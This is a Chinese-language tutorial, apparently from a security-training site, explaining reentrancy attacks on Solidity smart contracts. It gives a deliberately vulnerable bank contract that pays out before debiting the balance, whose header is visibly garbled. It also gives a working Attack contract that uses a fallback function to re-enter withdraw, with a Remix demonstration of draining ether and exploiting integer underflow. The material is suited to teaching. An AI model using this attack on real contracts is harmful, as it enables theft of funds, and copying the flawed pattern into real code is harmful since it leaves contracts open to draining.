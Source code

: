 #  区块链安全 | 智能合约重入漏洞   
原创 zkaq-君叹  掌控安全EDU   2024-12-18 04:00  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -   君叹 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 智能合约安全  
  
在当今数字化浪潮汹涌澎湃的时代，区块链技术无疑是一颗耀眼的明星，正深刻地重塑着众多领域的运作模式。区块链，本质上是一种去中心化的分布式账本，它通过密码学原理确保了数据的不可篡改与安全性，使得交易信息能够在众多互不信任的节点间实现透明、可靠的记录与验证。而智能合约，则是区块链技术最具创新性与变革性的应用之一。智能合约是一种自动执行的合约条款，以代码形式部署在区块链网络之上。它犹如一位忠诚且严谨的数字化管家，一旦预设的条件被触发，就会自动且精准地执行相应的操作，无需人工干预，从而极大地提高了交易的效率与公正性，减少了人为操作可能带来的误差、欺诈以及冗长的中间环节。无论是金融领域的复杂交易、供应链管理中的物流与支付流程，还是数字资产的交易与管理等场景，智能合约都展现出了巨大的潜力与应用价值。然而，就像任何新兴且强大的技术一样，智能合约在带来便利与机遇的同时，也面临着诸多安全挑战，这些安全隐患犹如隐藏在暗处的礁石，随时可能使智能合约的应用之船触礁搁浅，因此对智能合约安全的深入探讨与研究具有极为重要的现实意义。  
  
简单理解, 智能合约就是运行在区块链上的后端程序, 用来提供服务, 区块链技术是使互联网从web2.0时代迈向web3.0时代的技术, 而Solidity是一种高级编程语言, 在熟悉web逻辑漏洞的情况下, 只要简单入门Solidity, 再结合本教程, 就能快速入门智能合约安全的领域.  
  
Solidity官方文档: https://docs.soliditylang.org/zh/v0.8.21/ Remix: https://remix.ethereum.org/ Remix是基于浏览器的开发Solidity的IDE.  
#### 重入攻击  
  
重入攻击的漏洞点存在于先给钱后记帐 我们先来看一段漏洞代码  
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0  uint) blances;
    // 存钱方法
    function deposit() public payable {
        require(msg.value > 10);
        blances[msg.sender] += msg.value; 
    }
    // 查询余额方法
    function query() public view returns (uint){
        return blances[msg.sender];
    }
    // 取钱方法
    function withdraw(uint blance) public payable {
        require(blances[msg.sender] >= blance, "You don't have enough balance");
        (bool sent, ) = msg.sender.call{value:blance}(""); // 调用 call 进行转账
        if (sent) { // 判断是否转账成功
            blances[msg.sender] -= blance; // 转账成功则扣除相应的余额
        }
    }
}
```  
  
漏洞点就在上述代码中的withdraw方法中, 是先进行转账, 然后才扣除相应的余额 这会造成什么问题呢? 很显然开发者没有考虑到存款取款的账户也可以是智能合约 在学习过Solidity后, 我们知道, 智能合约中存在fallback方法, 用来处理当合约收到转账的情况 先来看我们的攻击代码 随后对原理进行详细讲解  
```
contract Attack {
    Blan blan;
    bool flag;
    constructor(address blan_address) {
        blan = Blan(blan_address);
    }
    function attack() public payable {
        require(msg.value == 1 ether);
        blan.deposit{value:1 ether}(); // 存入 1eth
        blan.withdraw(10 ** 18); // 取出1 eth, 这里以wei为单位, 10**18 wei = 1 eth
    }
    fallback() external payable {
        if (!flag) {
            blan.withdraw(10 ** 18);
            flag = true;
        }
     }
}

```  
  
我们可以看到, 有一个 flag 值 当触发攻击函数后, 会像目标合约存入 1eth 再提取1eth 我们来看一下执行的流程图  
  
图中箭头标注1, 2的部分是第一次访问到这块, 会跟着1走, 第二次再访问到这块, 会走2.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ46LFANecz7sbuupeWsk68mWoRb3KfwFKYbiaWvpUTicljpfa6iccmBg4dA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
  
流程图中很明显的告诉我们 漏洞触发的原因是, 当转账给一个智能合约时 会等待该合约的 fallback() 函数执行完成后 才算这行代码执行完毕, 才会接着继续下一行代码 其中利用的像是一种递归的思想  
  
另外此处还存在整型下溢漏洞 会将我的余额变为 2 ** 256 - 1 第一次存入后, 我的余额为1 两次取出后, 我的余额就变成了 1 - 1 - 1, 由于余额是 uint类型表示的 我的余额就会变成 2**256 -1 wei  
#### 测试:  
  
编译时选择Solidity7版本, Solidity8中添加了当发生溢出时自动回退的功能.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4IibrkqwkiaZl4qul4LJVoxbZa4rDqWrF82eDNluPLGBVBU2SFqpKT6Pg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
部署后, 我们首先用默认用户存进去10eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4jZhRcPaJVa7E8TFY0o4gRwPrMSNL05fepGD0KvyjsO1GClCtsegianQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40sMwuWZu9tslAbFYKnPhJODfH5s9PenUl9XAo7PBKd0vnsGw2NmPHQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4ian4IghwibxWe6uMgRGMnabNDzbaneKhv3MF6BMAHQNVS7zjAkMKF52A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后部署攻击合约  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4zNregFebiakNtE5o6E1XwveHhDQ8d5posFSIEOSgnRc125Bmhh5t2CA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
设置发送1eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4vicI5QG0QQ0GXiaGicdbVmg3icPwvIqFg2q96H7oL9iakTMhhcicf1odkJrA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ49lawxhKza7SH3y0ibqm9Lkhv93ed7S8U6ia3Y91qVszWDXmFOT901X3Q/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
但是结果我们发现 对方所有eth都到了我们账户上 这是为什么呢?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40liaenwC4HK1fcuvwCdheDbjkibjgfqNlp1ZFCPtcCQutsqRuLvP879A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
仔细观察我们攻击代码中的fallback()函数 我们这里也是先触发取款, 才更改flag标记 但是第二次取款的时候, 还是会再次触发fallback函数, 这里也同样是重入漏洞的逻辑, 我们需要先更改flag标志, 再调用取款函数, 才能达到我们上述的效果, 大家可以自行尝试, 这里便不做演示.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4t6qaArw6lbsan4pebOzgAWoywKXeUxxMeBDAVsaGPnbIFcNcKwNdmQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
```  
  
  
